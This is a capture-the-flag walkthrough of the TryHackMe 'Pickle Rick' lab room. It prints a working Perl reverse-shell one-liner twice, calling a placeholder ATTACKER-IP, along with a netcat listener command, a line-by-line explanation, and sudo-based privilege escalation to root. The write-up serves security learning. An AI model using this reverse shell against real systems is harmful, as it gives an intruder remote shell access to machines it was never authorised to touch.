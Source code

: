 # **[Pickle Rick](https://tryhackme.com/room/picklerick) : Let's see how to pwn this room**
- You can get a username from Page resource
- You can get a key from /robots.txt
- Then login with those credentials in login.php
- You’ll get a command execution page, with restrictions.
- We can execute this perl reverse shell:(python) doesnt worked


```
perl -e 'use Socket;$i="ATTACKER-IP";$p=LISTENING-PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```


Attacker machine  : nc -lvnp port

### **How the Perl Reverse Shell Works**

This Perl script establishes a TCP connection back to your machine (**`ATTACKER-IP`**) on a specified port (**`LISTENING-PORT`**). Once connected, it redirects the target machine's input/output streams (**`STDIN`**, **`STDOUT`**, **`STDERR`**) to the socket, then spawns an interactive shell (**`/bin/sh -i`**).

```
perl -e 'use Socket;$i="ATTACKER-IP";$p=LISTENING-PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

1. **`use Socket;`**
    - Loads Perl’s **`Socket`** module (for network operations).
2. **`$i="ATTACKER-IP"; $p=LISTENING-PORT;`**
    - Sets the attacker’s IP (**`$i`**) and listening port (**`$p`**).
3. **`socket(S, PF_INET, SOCK_STREAM, getprotobyname("tcp"));`**
    - Creates a TCP socket (**`SOCK_STREAM`**) named **`S`**.
4. **`if(connect(S, sockaddr_in($p, inet_aton($i)))){ ... }`**
    - Attempts to connect to the attacker’s machine (**`$i:$p`**).
    - **`sockaddr_in`** constructs the target address/port.
    - **`inet_aton`** converts the IP to binary format.
5. **`open(STDIN, ">&S"); open(STDOUT, ">&S"); open(STDERR, ">&S");`**
    - Redirects the target’s standard input/output/error to the socket **`S`**.
    - This means any command you type in your **`nc`** listener will be sent to the target’s shell, and its output will be sent back to you.
6. **`exec("/bin/sh -i");`**
    - Spawns an interactive shell (**`i`** flag makes it "interactive" with proper prompts).
    - The shell’s I/O is now tied to the socket.

Then second flag is in /home/rick

We can use double-quotes to access file, which contains white spaces in its name.
```perl
cat "file name"
```

### Third flag:

```perl
$ sudo -l
Matching Defaults entries for www-data on ip-10-10-193-202:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-193-202:
    (ALL) NOPASSWD: ALL

```

From this we can understand that we can run any command with root permission.

Final flag is in /root

> Learnt the basics of reverse shell, and privilege escalation.
>
